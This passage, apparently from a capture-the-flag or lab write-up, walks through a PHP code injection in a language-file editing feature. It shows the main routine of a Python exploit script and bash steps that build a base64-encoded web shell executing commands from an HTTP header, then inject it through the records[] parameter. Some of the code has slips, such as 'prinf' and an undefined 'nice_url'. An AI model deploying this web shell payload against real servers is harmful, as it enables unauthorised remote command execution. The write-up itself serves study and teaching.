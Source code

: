 ```python
if __name__ == "__main__":
	if len(sys.argv) != 4:
		sys.exit(f"\nUsage: python {sys.argv[0]} <url> <Username> <passowrd>\n")
		
	url, user, password = sys.argv[1], sys.argv[2], sys.argv[3]
	
	#Disable SSL warnings
	requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)
	
	url = ensure_url_format(url)
	session = requests.Session()
	session = login(nice_url, user, password, session)
	
	lang_file = ''.join(random.choices(string.ascii_lowercase,k=8)) + '.lng'
	csrf_id, csrf_key = get_csrf_tokens(url, session, lang_file)
	inject_shell(url,session, lang_file, csrf_id, csrf_key)
	launch_shell(url,session)
```

<br/><br/>
![image.png]({{ '/assets/images/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91_image_26.png' | relative_url }})
<br/><br/>
We can also exploit this php injection manually. First we need to retrieve `CSRF` validation tokens by  simulating an edit of a random `lang_file` 
<br/><br/>
![image.png]({{ '/assets/images/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91_image_27.png' | relative_url }})
<br/><br/>
The next step is to prepare our payload, we will use variables for a better understanding of each part of the injection
<br/><br/>

```bash
SHELL_NAME="rev.php"
#Take the content of the C header and execute it as system
PHP_PAYLOAD="<?php echo '___'; system(base64_decode(\$_SERVER['HTTP_C'])); echo '___'; ?>"
#Base 64 enconde the payload
ENCODED=$(echo -n "$PHP_PAYLOAD"| base64 -w0)
#Upload the file that is expecting the malicious header to then execute it
INJECT="']file_put_contents('$SHELL_NAME',base64_decode('$ENCODED'));die;#"
#Encode the injection to support url formating -s oneline -R raw -r plaintext @uri=urlencode
ENCODED_INJECT=$(prinf '%s' "$INJECT" | jq -s -R -r @uri)
```

<br/><br/>
![image.png]({{ '/assets/images/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91_image_28.png' | relative_url }})
<br/><br/>
Now, we can inject the payload in the vulnerable `records[\]` POST parameter
<br/><br/>
![image.png]({{ '/assets/images/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91_33a2d5ab_d502_4b18_aac1_d72cf4c07bca.png' | relative_url }})
<br/><br/>
The file is uploaded successfully, we can execute code sending requests to out malicious injection (`rev.php`) passing commands in `C` header 
<br/><br/>

